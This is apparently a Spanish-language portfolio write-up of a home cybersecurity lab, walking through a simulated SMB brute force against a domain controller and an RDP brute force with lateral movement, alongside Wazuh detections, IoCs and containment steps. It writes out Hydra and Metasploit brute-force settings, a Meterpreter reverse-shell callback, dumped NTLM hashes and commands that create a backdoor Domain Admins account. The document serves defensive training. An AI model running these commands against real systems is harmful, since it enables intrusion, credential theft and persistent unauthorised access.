Portafolio técnico de un laboratorio de ciberseguridad construido desde cero, replicando una infraestructura empresarial segmentada para practicar el ciclo completo de **ataque → detección → respuesta**.

**Contacto:** djaviercastro21@gmail.com | TryHackMe: [tryhackme.com/p/Dilannn](https://tryhackme.com/p/Dilannn)

## Contenido

- Arquitectura del Laboratorio
- Escenario 1 — SMB Brute Force Attack hacia Domain Controller
- Escenario 2 — RDP Brute Force + Movimiento Lateral
- Roadmap de Escenarios
- Stack de Herramientas

```{=openxml}
<w:p><w:r><w:br w:type="page"/></w:r></w:p>
```

## Arquitectura del Laboratorio

| Componente | Rol |
|---|---|
| SIEM Wazuh | Monitoreo centralizado, correlación de eventos y alertas |
| FortiGate NGFW | Firewall perimetral, segmentación multi-VLAN, políticas de tráfico |
| Windows Server 2019 (DC) | Domain Controller (Active Directory) |
| Windows 10 (endpoint) | Estación de trabajo con Sysmon habilitado |
| Kali Linux (interno / externo) | Simulación de atacante interno y externo |
| DFIR-IRIS | Plataforma de gestión y documentación de incidentes |

### Diagrama de topología completa



---

```{=openxml}
<w:p><w:r><w:br w:type="page"/></w:r></w:p>
```

## Escenario 1: SMB Brute Force Attack hacia Domain Controller

**Fecha:** 29/07/2026 | **Clasificación:** Crítico | **Estado:** Contenido

### Resumen ejecutivo
Simulación de un ataque completo tipo APT (Advanced Persistent Threat) contra un Domain Controller Windows Server 2019. El atacante (Kali Linux externo) comprometió las credenciales del Administrador, obtuvo shell remota con `NT AUTHORITY\SYSTEM` y extrajo hashes NTLM de la base SAM. El equipo SOC detectó el ataque en tiempo real mediante Wazuh SIEM y contuvo la amenaza deshabilitando las políticas de FortiGate correspondientes.

### Topología del laboratorio
```
ATACANTE EXTERNO — Kali Linux (203.0.113.2)
        │
        ▼
FORTIGATE NGFW — VIP 203.0.113.101 → 192.168.50.10 (Política: ATAQUE_WAN)
        │
        ▼
OBJETIVO — Windows Server 2019 DC (SRVAD01.SYS.SYSTEMATICA.COM) — 192.168.50.10
        │
        ▼
MONITOREO — Wazuh SIEM (192.168.20.50) | DFIR-IRIS (192.168.20.10)
```


---

### Fase 1 — Reconocimiento
**Herramienta:** Nmap | **MITRE:** T1046 (Network Service Discovery)

```bash
nmap -Pn -sV -p 445 203.0.113.101
```

Resultado del atacante — puerto SMB (445) confirmado abierto:



El puerto 445 (SMB) fue el vector de ataques históricos devastadores como WannaCry y NotPetya (2017), con miles de millones de dólares en daños globales.

**Detección en Wazuh:** más de 20 alertas simultáneas de Network Service Discovery (Rule Level 10, Event ID 3 de Sysmon).



Regla personalizada de Wazuh utilizada para la detección:



```xml
<rule id="100013" level="10">
    <if_sid>92106</if_sid>
    <field name="win.eventdata.sourceIp">203.0.113.2</field>
    <description>Alerta Critica SOC: Escaneo de red completado al puerto SMB desde Kali Externa.</description>
    <mitre><id>T1046</id></mitre>
</rule>
```

---

### Fase 2 — Fuerza bruta SMB
**Herramienta:** Metasploit `auxiliary/scanner/smb/smb_login` | **MITRE:** T1110.001 (Password Guessing)

Configuración del ataque:



```
RHOSTS    → 203.0.113.101 (VIP FortiGate)
RPORT     → 445 (SMB)
SMBDomain → SYS
SMBUser   → Administrador
PASS_FILE → /usr/share/wordlists/fasttrack.txt
```

Ejecución y resultado — credencial comprometida tras varios intentos fallidos:



```
[+] SUCCESS: SYS\Administrador:S0p0rt321
```

Patrón detectado: contraseña con formato "Estación + Año" (común en sysadmins que rotan contraseñas estacionalmente) — patrón débil y predecible.

**Detección en Wazuh** — secuencia correlacionada de eventos:



| Hora | Event ID | Descripción | MITRE |
|---|---|---|---|
| 17:55:22 | 4625 (x5) | Logon Failure — Administrador desde 203.0.113.2 | Account Access Removal |
| 17:55:25 | 4624 | Login exitoso — NTLM, posible Pass-the-Hash | Pass the Hash, Domain Accounts |
| 17:55:25 | 4672 | Privilegios especiales asignados (SeDebugPrivilege) | Domain Policy Modification |

**Correlación:** 5 fallos → 1 éxito = fuerza bruta confirmada. Autenticación NTLM en un dominio moderno es en sí misma una señal de alerta.

---

### Fase 3 — Post-explotación con PsExec
**Herramienta:** Metasploit `exploit/windows/smb/psexec` | **Payload:** `windows/x64/meterpreter/reverse_tcp` | **MITRE:** T1569.002

Reverse shell por el puerto 443 (HTTPS) para evadir el firewall — el tráfico saliente hacia un puerto "normal" no genera alerta perimetral:



```
Meterpreter session 1 opened
203.0.113.2:443 → 192.168.50.10:49941
```

**Evidencia adicional — log de tráfico en FortiGate:** confirma la sesión activa de la política `ReverseShell-Lab` desde `192.168.50.10` hacia `203.0.113.2` por el puerto 443/HTTPS, validando desde el firewall que el canal de comando y control usó el puerto "normal" para pasar desapercibido.



**Detección en Wazuh:**



| Hora | Evento | MITRE |
|---|---|---|
| 18:06:43 | Login NTLM + privilegios especiales (4624/4672) | — |
| 18:06:45 | "Windows command prompt started by an abnormal process" (services.exe → cmd.exe) | T1059.003 |
| 18:06:45 | 7045 — Nuevo servicio instalado (`powershell.exe -nop -w hidden -noni`) | T1543.003 |
| 18:06:48 | PowerShell spawneó PowerShell (evasión x86→x64) | T1059.001 |

---

### Fase 4 — Extracción de credenciales
**Herramienta:** Mimikatz/Kiwi | **MITRE:** T1003.001 (LSASS Memory), T1003.002 (SAM)

Nivel de acceso obtenido — `NT AUTHORITY\SYSTEM` (más privilegiado que Administrador, bypasea UAC):



Resultado de `creds_all`:



```
MSV CREDENTIALS:
Administrador → b9b3f09fe9c14fe7f6d8b08a2225c57a
SRVAD01$      → 3b0c53d606b7817e941a767de81c000b
WDIGEST: (null)  ← deshabilitado en Windows Server 2019 (en versiones antiguas mostraría la contraseña en texto claro)
```

Con el hash NTLM, un atacante puede hacer **Pass-the-Hash** (autenticarse sin conocer la contraseña real) o crackearlo offline con `hashcat -m 1000`.

Resultado de `lsa_dump_sam`:



Evidencia forense adicional — crash del proceso payload:



Event ID 1001 (APPCRASH) generó un memory dump analizable con Volatility o WinDbg para reconstruir el comportamiento exacto del payload.

---

### Fase 5 — Respuesta y contención
Acciones de contención inmediata (SOC Tier 1):



1. Deshabilitar política `ATAQUE_WAN` — corta el acceso SMB del atacante hacia el servidor.
2. Deshabilitar política `ReverseShell-Lab` — corta la conexión reversa del servidor hacia el atacante.

Resultado — verificación de contención exitosa:



```
445/tcp FILTERED  →  el atacante ya no puede acceder
```

**Recomendaciones para erradicación (Tier 2/3):** rotar contraseña del Administrador y todos los usuarios del dominio, rotar el hash de `krbtgt` dos veces (previene Golden Ticket), buscar persistencia (scheduled tasks, registry run keys, servicios con nombres aleatorios), revisar movimiento lateral, y analizar el memory dump con Volatility.

**Hardening post-incidente:** MFA en cuentas admin, deshabilitar SMBv1, política de bloqueo de cuenta (5 intentos → 30 min), inspección proxy-based en FortiGate, política de contraseñas más robusta (mínimo 12 caracteres).

---

### Indicadores de Compromiso (IoCs)
- **IP atacante:** 203.0.113.2
- **Credenciales comprometidas:** `SYS\Administrador:S0p0rt321` | Hash NTLM: `b9b3f09fe9c14fe7f6d8b08a2225c57a`
- **Event IDs críticos:** 4625, 4624, 4672, 7045, 1001

### Técnicas MITRE ATT&CK mapeadas
T1046 (Network Service Discovery) · T1110 (Brute Force) · T1078 (Valid Accounts) · T1569.002 (Service Execution) · T1059.001/003 (PowerShell / Command Shell) · T1550.002 (Pass the Hash) · T1003.001 (LSASS Memory)

### Conclusiones
1. Una contraseña predecible (patrón "Estación+Año") fue comprometida en segundos con un diccionario especializado.
2. La detección temprana con SIEM es crítica: el promedio de detección sin SIEM es ~197 días; con Wazuh, segundos.
3. La defensa en profundidad (FortiGate + Wazuh + Sysmon) da visibilidad completa del ataque en todas sus fases.
4. El Domain Controller es el activo más crítico de la infraestructura — comprometerlo equivale a comprometer todo el dominio.
5. La autenticación NTLM en un dominio moderno es en sí misma una señal de alerta.

---

```{=openxml}
<w:p><w:r><w:br w:type="page"/></w:r></w:p>
```

## Escenario 2: RDP Brute Force + Movimiento Lateral

**Fecha:** 14/08/2026 | **Clasificación:** Crítico | **Estado:** Contenido

### Resumen ejecutivo
Simulación de un ataque de fuerza bruta contra RDP dirigido a un endpoint Windows 10 en la red interna (VLAN 10). Tras comprometer el endpoint, el atacante reutilizó credenciales para movimiento lateral hacia el Domain Controller, accediendo a recursos críticos del dominio y estableciendo persistencia mediante una cuenta backdoor (`svc_backup`) elevada a Domain Admins.

**Sistemas afectados:** Windows 10 (192.168.163.12) · Windows Server 2019 / DC (192.168.50.10)
**MITRE ATT&CK:** T1110 (Brute Force) · T1021.001 (RDP) · T1021.002 (SMB/Admin Shares) · T1136.002 (Create Domain Account) · T1484 (Domain Policy Modification)

### Entorno del laboratorio
| Componente | IP | Rol |
|---|---|---|
| LKALI (atacante) | 192.168.163.9 | Equipo atacante interno |
| Windows 10 | 192.168.163.12 | Objetivo inicial (víctima) |
| Windows Server 2019 | 192.168.50.10 | Domain Controller (objetivo final) |
| Wazuh SIEM | 192.168.20.50 | Detección y monitoreo |
| FortiGate NGFW | 192.168.163.1 | Firewall perimetral y segmentación |

---

### Fase 1 — Reconocimiento
**Herramienta:** Nmap

```bash
nmap -p3389 -sV --script rdp-enum-encryption 192.168.163.12
```

Puerto 3389/TCP abierto — Microsoft Terminal Services, con CredSSP y NLA habilitados.

**Hallazgo de seguridad:** RDP habilitado en un endpoint de usuario con cuenta administrativa local — superficie de ataque innecesaria.



---

### Fase 2 — Fuerza bruta RDP
**Herramienta:** Hydra | **MITRE:** T1110

```bash
hydra -L users.txt -P passwords.txt -f rdp://192.168.163.12
hydra -l Dilannn -p S0p0rt321 -f rdp://192.168.163.12
```

Credenciales encontradas: `Dilannn:S0p0rt321`

**Observación técnica:** con listas en paralelo (`-L -P`), Hydra reportó "0 valid password found" por saturación del módulo RDP interno. Con credencial única (`-l -p`), confirmó "1 valid password found". La fuente de verdad siempre es el SIEM — Wazuh registró el Event ID 4624 exitoso en ambos casos.





---

### Fase 3 — Acceso RDP completo
**Herramienta:** xfreerdp

```bash
xfreerdp /v:192.168.163.12 /u:Dilannn /p:S0p0rt321 /cert:ignore /sec:nla
```

Sesión RDP completa establecida — escritorio gráfico del Win10 accesible desde Kali.



---

### Fase 4 — Movimiento lateral (Win10 → WinServer)
**Técnica:** reutilización de credenciales comprometidas en el Escenario 1 (`SYS\Administrador:S0p0rt321`) para acceder a recursos SMB del Domain Controller.

```powershell
net use \\192.168.50.10 /user:SYS\Administrador S0p0rt321
net view \\192.168.50.10
```

Autenticación exitosa. Recursos compartidos accesibles: **NETLOGON** (scripts de inicio de sesión) y **SYSVOL** (Group Policy Objects de todo el dominio).

**Impacto:** acceso a SYSVOL implica acceso de lectura/escritura potencial sobre las políticas que gobiernan TODOS los equipos del dominio.



---

### Fase 5 — Persistencia (cuenta backdoor)
**Técnica:** creación de cuenta de dominio disfrazada de cuenta de servicio legítima (`svc_backup`) y elevación al grupo Domain Admins.

```cmd
runas /user:SYS\Administrador /netonly "cmd.exe"
net user svc_backup P@ssw0rd123! /add /domain
net group "Admins. del dominio" svc_backup /add /domain
```

Cuenta `svc_backup` creada y agregada a Domain Admins — el atacante mantiene acceso privilegiado incluso si se cambia la contraseña del Administrador.





---

### Detección en Wazuh SIEM

| Hora aprox. | Event ID | Agente | Descripción | Level | MITRE |
|---|---|---|---|---|---|
| 18:47 | 4625 | WINDOWS10-PC | Múltiples fallos de autenticación RDP | 5 | T1110 |
| 18:47 | 4624 Type 3 | WINDOWS10-PC | Auth NTLM exitosa — alerta Pass-the-Hash | 6 | T1550.002 |
| 20:52 | 4624 Type 10 | WINDOWS10-PC | Sesión RDP completa establecida | 3 | T1021.001 |
| 20:52 | 4672 | WINDOWS10-PC | Privilegios especiales asignados a Dilannn | 3 | — |
| 20:52 | Sysmon EID 3 | WINSERV2019 | Conexión SMB desde 192.168.163.12 | 3 | T1021.002 |
| 20:52 | 4624 Type 3 | WINSERV2019 | Administrador autenticado desde Win10 | 6 | T1021.002 |
| 20:06 | 4720 | WINSERV2019 | Cuenta svc_backup creada en el dominio | 8 | T1136.002 |
| 20:06 | 4722 | WINSERV2019 | Cuenta svc_backup habilitada | 8 | T1136.002 |
| 20:06 | 4738 | WINSERV2019 | Cuenta svc_backup modificada | 8 | T1098 |
| 20:49 | 4728 | WINSERV2019 | svc_backup agregada a Domain Admins | 12 | T1484 |
| 20:49 | 4737 | WINSERV2019 | Grupo Domain Admins modificado | 5 | T1484 |









**Análisis de Event IDs clave:**
- **4624 Type 3 + NtLmSsp + NTLM:** autenticación de red vía NTLM sin sesión gráfica — típico de herramientas como Hydra probando credenciales por RDP. Wazuh lo correlaciona con posible Pass-the-Hash.
- **4624 Type 10 + User32 + Negotiate:** confirma sesión RDP interactiva completa con escritorio gráfico (User32 solo aparece con sesión gráfica real).
- **Sysmon EID 3** (192.168.163.12 → puerto 445): conexión SMB desde el Win10 hacia el WinServer — T1021.002, movimiento lateral desde endpoint comprometido hacia el DC.
- **4728 level 12** (`rule.mail: true`): level 12 es crítico en Wazuh (escala 1-15); en producción dispararía notificación automática y un ticket P1 de máxima prioridad.

---

### Indicadores de Compromiso (IoCs)
| Tipo | Valor | Descripción |
|---|---|---|
| IP | 192.168.163.9 | Equipo atacante (LKALI) |
| Cuenta | Dilannn | Cuenta local comprometida en Win10 |
| Cuenta | SYS\Administrador | Cuenta de dominio comprometida (credenciales reutilizadas) |
| Cuenta | svc_backup | Cuenta backdoor creada por el atacante |
| Puerto | 3389/TCP | Puerto RDP expuesto en endpoint |
| Puerto | 445/TCP | Puerto SMB usado para movimiento lateral |
| Hash NTLM | b9b3f09fe9c14fe7f6d8b08a2225c57a | Hash de SYS\Administrador (Escenario 1) |
| Recurso | \\192.168.50.10\SYSVOL | Recurso crítico del DC accedido |
| Recurso | \\192.168.50.10\NETLOGON | Recurso crítico del DC accedido |

---

### Respuesta al incidente

**1. Deshabilitación de RDP en el endpoint comprometido** — cortó la capacidad del atacante de reconectarse por ese vector.




**2. Policy DENY en FortiGate** contra el equipo atacante (KALI10) hacia el Win10.



**Hallazgo importante — limitación L2:** la policy DENY no tuvo efecto entre LKALI y Win10 porque ambos equipos están en el mismo segmento (VLAN 10 — 192.168.163.0/24). El tráfico intra-VLAN se resuelve a nivel de Capa 2 (switching), sin pasar por el FortiGate. La contención efectiva se logró desactivando RDP directamente en el endpoint.

**3. Eliminación de la cuenta backdoor** desde Active Directory Users and Computers (`dsa.msc`).




**Remediación recomendada:**
- *Inmediata:* cambiar contraseña de `SYS\Administrador` y de `Dilannn`, verificar otras cuentas backdoor, revisar grupos privilegiados.
- *Mediano plazo:* deshabilitar RDP en endpoints estándar, VLAN de cuarentena, Account Lockout Policy, Restricted Admin Mode, principio de mínimo privilegio.
- *Largo plazo:* MFA para RDP, NAC, mejor segmentación de red, alertas automáticas con escalación para Event ID 4728.

---

### Documentación en DFIR-IRIS
El incidente fue documentado formalmente en DFIR-IRIS, simulando el flujo de trabajo real de un analista SOC.

```
ID: #3
Nombre: INC-002 - RDP Brute Force + Movimiento Lateral
SOC Ticket ID: SOC-2026-002
Clasificación: Intrusion: Privileged Account Compromise
Estado: Open
Fecha: 14/08/2026
```



**Assets registrados** — los 3 equipos involucrados, identificando cuáles fueron comprometidos:



**IOCs registrados** — 6 indicadores de compromiso (IPs, cuentas de usuario, hash NTLM):



**Timeline del incidente** — línea de tiempo completa con 7 eventos, desde el reconocimiento hasta la remediación:



---

### Lecciones aprendidas
1. **Reutilización de contraseñas:** la credencial comprometida en el Escenario 1 (`S0p0rt321`) fue reutilizada en múltiples cuentas, habilitando el movimiento lateral sin técnicas avanzadas.
2. **RDP expuesto en endpoints:** un endpoint de usuario con RDP habilitado y cuenta administrativa local es una superficie de ataque crítica.
3. **Limitación de segmentación L2:** las políticas de firewall no son efectivas para tráfico dentro del mismo segmento de red — la defensa en profundidad requiere controles a nivel de endpoint además de red.
4. **Detección vs. prevención:** Wazuh detectó correctamente todo el ataque (incluyendo T1021.002 y T1484 level 12), pero sin respuesta automática el atacante logró completar sus objetivos. La integración de respuesta activa (FortiGate API + Wazuh) es la evolución natural del lab.

### Mapeo MITRE ATT&CK
| Táctica | Técnica | ID | Herramienta |
|---|---|---|---|
| Reconnaissance | — | — | Nmap |
| Credential Access | Brute Force | T1110 | Hydra |
| Initial Access | Valid Accounts | T1078 | xfreerdp |
| Lateral Movement | Remote Desktop Protocol | T1021.001 | xfreerdp |
| Lateral Movement | SMB/Windows Admin Shares | T1021.002 | net use |
| Persistence | Create Domain Account | T1136.002 | net user |
| Privilege Escalation | Domain Policy Modification | T1484 | net group |
| Defense Evasion | Valid Accounts: Domain Accounts | T1078.002 | runas |

---

```{=openxml}
<w:p><w:r><w:br w:type="page"/></w:r></w:p>
```

## Roadmap de Escenarios

| Estado | Escenario | Descripción |
|---|---|---|
| ✅ | **1 — SMB Brute Force → PsExec → Mimikatz** | Entrada inicial, escalada de privilegios, volcado de hashes NTLM |
| ✅ | **2 — RDP Brute Force + Movimiento Lateral** | Fuerza bruta RDP, acceso al Win10, salto al WinServer vía SMB |
| ⏳ | **3 — Ataques Web + WAF** | SQL Injection, XSS, Web Shell contra Metasploitable, detección con WAF de FortiGate |
| ⏳ | **4 — Ataques a Active Directory** | Kerberoasting, AS-REP Roasting, enumeración de AD desde Kali |
| ⏳ | **5 — Pass-the-Hash** | Uso del hash NTLM robado en el Escenario 1 para autenticarse sin contraseña |
| ⏳ | **6 — Persistencia** | Backdoor, tarea programada maliciosa, cuenta fantasma en el dominio |
| ⏳ | **7 — Threat Hunting** | Revisión de logs históricos buscando TTPs, hipótesis de cacería, Wireshark |

---

## Stack de Herramientas
**Detección:** Wazuh SIEM, Sysmon | **Perimetral:** FortiGate NGFW | **IR:** DFIR-IRIS | **Ofensivas:** Kali Linux, Nmap, Metasploit Framework, Hydra, Mimikatz/Kiwi, PsExec, xfreerdp | **Frameworks:** MITRE ATT&CK, Cyber Kill Chain
